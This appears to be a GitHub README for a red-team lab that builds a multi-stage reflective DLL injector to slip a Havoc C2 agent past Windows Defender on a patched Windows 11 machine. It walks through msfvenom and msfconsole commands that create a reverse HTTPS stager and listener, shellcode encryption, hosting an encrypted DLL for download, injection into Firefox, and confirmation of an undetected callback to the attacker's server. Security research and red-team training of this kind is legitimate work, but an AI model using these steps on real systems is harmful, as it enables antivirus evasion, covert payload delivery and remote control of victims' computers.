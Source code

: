 # Evading Defender with Havoc Demon Agent via Multi-Stage Reflective DLL Injector

<img src=data/demon.png align=center><img/>

## About the Lab

The purpose of this lab is to bypass Windows Defender on a fully patched Windows 11 device. I've written several development tools for creating evasive loaders which ive wanted to use for a public project. This is a fun way to do so.

> [!NOTE]
> This lab tested the standard version of Windows Defender included with all installations of Windows 11, not Microsoft Defender for Endpoint.

## The Payload

### About
This is a payload that i wrote as a proof of concept for other tools that i've written. The goal was to slip an implant past defender using a loader which implements evasive tactics using code generated from tools that i have previously released. Both the dll and implant perform their injection routines through system calls generated with the [wizardcalls](https://github.com/wizardy0ga/wizardcalls) tool. Dynamic API resolution via API hashing were implemented in the injector & dll via the [hashycalls](https://github.com/wizardy0ga/hashycalls) tool. Finally, both programs use [shell-crypt](https://github.com/wizardy0ga/shell-crypt) to obfuscate payloads & perform run-time decryption.

The payload operates in 3 main stages. First, the injector will establish a connection with a webserver & retrieve an encrypted dll. Then, the injector decrypts the dll and reflectively loads it into firefox to initiate the second stage. From the address space of firefox, the dll will decrypt & execute an embedded metasploit stager to launch the third stage. In the third and final stage, the metasploit stager retrieves & executes the demon shellcode. At this point, demon is now executing in memory on the system & is ready to receive commands from the adversary.

### Kill Chain
<img src=data/killchain.png align=center><img/>

### How it Works

#### Stage 0
The initial payload is an injector intended to be executed by the user / victim.

#### Stage 1
The injector downloads the and decrypts the reflective dll. The dll is reflectively injected into firefox.

#### Stage 2
An embedded msfvenem custom shellcode stager is decrypted and executed. 

#### Stage 3
The shellcode downloads & executes the demon shellcode within the address space of firefox. Pwnd!

#### MITRE TTPs Employed
| Tactic | Technique | ID |
| - | - | - |
| Execution | Native API | [T1106](https://attack.mitre.org/techniques/T1106/)
| Defense Evasion | Obfuscated Files or Information: Embedded Payloads | [T1027.009](https://attack.mitre.org/techniques/T1027/009/)
| Defense Evasion | Obfuscated Files or Information: Encrypted/Encoded File | [T1027.013](https://attack.mitre.org/techniques/T1027/013/)
| Defense Evasion | Obfuscated Files or Information: Dynamic API Resolution | [T1027.007](https://attack.mitre.org/techniques/T1027/007/)
| Defense Evasion | Reflective Code Loading | [T1620](https://attack.mitre.org/techniques/T1620/)
| Defense Evasion | Process Injection | [T1055](https://attack.mitre.org/techniques/T1055/)
| Command and Control | Ingress Tool Transfer |[T1105](https://attack.mitre.org/techniques/T1105/)

### Interesting Development Issues
<details>
    <summary> Expand </summary>

While developing this payload, i ran into some issues that i wanted to highlight here for future reference.

#### Demon Shellcode Size
The size of the shellcode output by demon is fairly large, at ~100 KB using the default payload. Embedding this directly in the payload would make management & compilation some what of a hassle. To resolve this issue, a stager was inserted between the dll & demon shellcode allowing a smaller shellcode to be embedded within the dll which would download & execute a much larger shellcode.

#### Conflicts between tools
I noticed that using both hashycalls & wizardcalls in the same payload required some adjustments to be made to the source code, specifically around the macros used for hashing. This will be resolved in a future update to prevent naming collisions between macros. There were some other conflicts as well but i don't remember them at this time. They will be diagnosed & resolved in future updates.

#### Wizardcalls Global Architecture Issue
Wizardcalls operates using global variables. While incorporating this tool into the reflective dll, i had to remove this dependency on global variables since the reflective injection function in the dll must be position independent. I intend to add this as a feature to the tool in a future update. 

</details>

## The Lab

### Machine Info

###### Attacker
| IP | Description
| - | - |
| 172.16.1.6 | A server which hosts the encrypted dll
| 172.16.1.5 | The havoc command and control server

###### Victim
| IP | Description
| - | - |
| 172.16.1.9 | A fully patched windows 11 system

### Setting up Havoc
> [!IMPORTANT]
> Havocs installation is out of scope for this lab. Refer to havocs documentation [here](https://havocframework.com/docs/installation) for installation instructions.
<details>
    <summary> Expand </summary>

The first step is to create a listener. I've used the default configuration HTTPS payload for simplicity sake. 

<img src=data/listener_interface.png align=center><img/>
###### Creating a Listener

Next we need to generate our shellcode. Again, for simplicity i've used the default configuration.

<img src=data/payload_generator.png align=center><img/>
###### Generating the Shellcode

</details>

### Setting up Metasploit
<details>
    <summary> Expand </summary>

In this instance, metasploit will stage the demon shellcode. Metasploit offers a various stagers under **windows/x64/custom/** which download & execute larger shellcodes. This is useful for instances where the primary shellcode is too large to efficiently embed within an executable. A stager solves this issue. To generate the stager, execute this msfvenom command:  

`msfvenom -p windows/x64/custom/reverse_https lhost=eth0 lport=80 shellcode_file=/home/kali/shellcodes/demon.x64.bin exitfunc=thread -o stager.bin`

Save this shellcode as it will be embedded in the reflective dll.

<img src=data/msfvenom.png align=center><img/>
###### Generating the stager shellcode

Now it's time to setup a metasploit listener for the stager. This is done through the command below.

`msfconsole -q -x "use multi/handler;set payload windows/x64/custom/reverse_https;set lhost eth0; set lport 80; set shellcode_file /home/kali/shellcodes/demon.x64.bin; set exitonsession false; run -j"`

<img src=data/stager_listener.png align=center><img/>
###### Setting up the listener

</details>

### Building the Injector & DLL
<details>
    <summary> Expand </summary>

It's time to build the dll & injector. First, we'll need to encrypt & embed our shellcode in the dll, then we'll compile it. Next, we'll encrypt the dll & embed the decryption info in the injector.

First, we download our shellcode from the kali machine. Then, we encrypt the shellcode using [shell-crypt](https://github.com/wizardy0ga/shell-crypt). Shell-crypt is a utility i wrote for obfuscating shellcode in C/C++ implants. It encrypts the shellcode & then encrypts the decryption key using XOR. The key will bruteforce itself at run time prior to decrypting the shellcode. This protects both the shellcode & the key.

<img src=data/encrypting_the_stager.png align=center><img/>
###### Encrypting the Stager

Once the shellcode is encrypted, we place the **HintByte**, **Key** & **shellcode** variables into the **Payload** function of the dllmain.c file in the dll.

<img src=data/embed_stager.png align=center><img/>
###### Embedding the stager in the DLL

Now we compile the DLL with our encrypted stager embedded inside.

<img src=data/compile_dll.png align=center><img/>
###### Compiling the DLL in Visual Studio

Now we need to encrypt the DLL & store the decryption info in the injector. We'll encrypt the DLL with the [shell-crypt](https://github.com/wizardy0ga/shell-crypt) utility. 

<img src=data/encrypt_dll.png align=center><img/>
###### Encrypting the DLL

Move the encrypted dll file into a webserver. In this case, i'm hosting a webserver within the release directory of the solution. The injector will connect to this server & retrieve the encrypted DLL.

<img src=data/http_server.png align=center><img/>
###### Starting a webserver to host the DLL

Copy the webserver ip & dll name into the respective macros in the injectors main.c file.  

<img src=data/webserver_info.png>  

###### Setting up the webserver info in the injector  

Copy the **HintByte** & **Key** variables output by shellcrypt to the main.c file of the Injector.

<img src=data/embed_injector.png align=center><img/>
###### Embedding DLL decryption info in the Injector

We're ready to compile the injector! Once the injector is compiled, we'll move over to the victim machine.

<img src=data/compile_injector.png align=center><img/>
###### Compiling the injector.

</details>


### Verifying the Victim Machine Information
<details>
    <summary> Expand </summary>

The victim machine is a fully patched Windows 11 device. Below is an image from the [windows 11 update history](https://support.microsoft.com/en-us/topic/windows-11-version-24h2-update-history-0929c747-1815-4543-8461-0160d16f15e5) provided by Microsoft. The latest version of Windows 11 24H2 at this time of writing is 26100.3775.

<img src=data/update_history.png align=center><img/>
###### Latest Windows 11 Build Version

On our victim, we can verify we're running the latest build version at this time of writing.

<img src=data/victim_version_info.png align=center><img/>
###### About section from the Victim machine

We'll also want to verify we have the latest defender updates installed. Microsoft lists the latest versions for defender components [here](https://www.microsoft.com/en-us/wdsi/defenderupdates)

<img src=data/defender_version_info.png align=center><img/>
###### Latest Security Intelligence Version

On our victim, we can verify the latest updates installed for the security intelligence, engine & antimalware client. 

<img src=data/defender_version_on_victim.png align=center><img/>
###### Security Intelligence Update Version on Victim

</details>

### Executing the Injector
<details>
    <summary> Expand </summary>

Finally, it's time to fire the missle! First, we'll perform a signature scan on our injector which has been given the name **goodnight.exe**. 

<img src=data/signature_scan.png align=center><img/>
###### Performing a file scan for signature based threats

Great, no detections! This executable doesn't contain any signatures which are known threats. This means we can move into the execution phase.

<img src=data/victim_exec.png align=center><img/>
###### Executing the injector on the victim

<img src=data/no_exclusions.png align=center><img/>
###### Verifying no defender exclusions exist on the victim

Awesome! The injector successfully retrieved & decrypted the dll which was reflectively loaded into firefox using the pid 3664. The DLL then decrypted the embedded metasploit stager which retrieved the the demon shellcode & executed it in the address space of firefox. Using powershell, we can verify firefox has established a connection with our command and control server at 172.16.1.5. The output of our web server & stage listener also show the victim retrieving each payload.

<img src=data/web_request.png align=center><img/>
###### Retrieving the encrypted dll from the webserver

<img src=data/stager_listener_request.png align=center><img/>
###### Retrieving the demon shellcode from the stager listener

Back on the c2, we can verify we've caught the callback from the demon agent. A powershell command is executed to query the AntiVirusProduct CIM class to enumerate the AV product running on the system.

<img src=data/catching_shell.png align=center><img/>
###### Catching the Callback from Demon Agent

There it is. The havoc demon agent has evaded defender on a Windows 11 device that was fully patched at this time of writing.

</details>